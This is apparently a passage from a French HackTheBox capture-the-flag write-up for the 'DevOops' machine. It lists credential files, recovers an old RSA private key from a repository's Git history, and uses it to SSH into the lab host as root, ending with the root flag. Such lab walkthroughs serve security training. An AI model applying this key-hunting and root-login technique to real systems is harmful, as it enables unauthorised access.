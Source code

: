 ```plain
./.config/libaccounts-glib:
total 20
drwxr-xr-x  2 roosa roosa  4096 Mar 21 07:09 .
drwx------ 14 roosa roosa  4096 Mar 21 07:10 ..
-rw-r--r--  1 roosa roosa 12288 Mar 21 07:09 accounts.db

./.local/share/keyrings:
total 16
drwx------  2 roosa roosa 4096 May 29 10:32 .
drwx------ 11 roosa roosa 4096 Mar 21 07:09 ..
-rw-------  1 roosa roosa  105 Mar 26 06:37 login.keyring
-rw-------  1 roosa roosa  207 Mar 21 07:09 user.keystore

./deploy/resources/integration:
total 12
drwxrwx--- 2 roosa roosa 4096 Mar 26 07:50 .
drwxrwx--- 3 roosa roosa 4096 Mar 26 07:50 ..
-rw------- 1 roosa roosa 1679 Mar 26 07:50 authcredentials.key

./work/blogfeed/resources/integration:
total 12
drwxrwx--- 2 roosa roosa 4096 Mar 19 09:31 .
drwxrwx--- 3 roosa roosa 4096 Mar 19 09:31 ..
-rw------- 1 roosa roosa 1679 Mar 19 09:32 authcredentials.key
```

Les fichiers *authcredentials.key* sont des clés privées RSA mais aucune ne nous permet l'accès en root à SSH :'(  

On voit tout de même que le dossier *blogfeed* est versionné par Git donc je récupère le dépôt en local et comme je suis une grosse feignasse qui n'aime pas taper des commandes Git je charge ça dans *PyCharm* et je vais voir les logs :  

![DevOops HackTheBox CTF Git logs](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/devoops_git_log.png)

Et on peut voir la présence d'une ancienne clé privée RSA via diff :  

![DevOops HackTheBox CTF Git commit rsa key](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/devoops_auth_key_diff.png)

Cette fois c'est la bonne :  

```plain
devloop@kali:~/Documents/devoops$ ssh -i old_rsa.key root@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Tue Sep  4 06:25:21 2018 from 10.10.15.168
root@gitter:~# id
uid=0(root) gid=0(root) groups=0(root)
root@gitter:~# cat root.txt
d4fe1e7f7187407eebdd3209cb1ac7b3
```
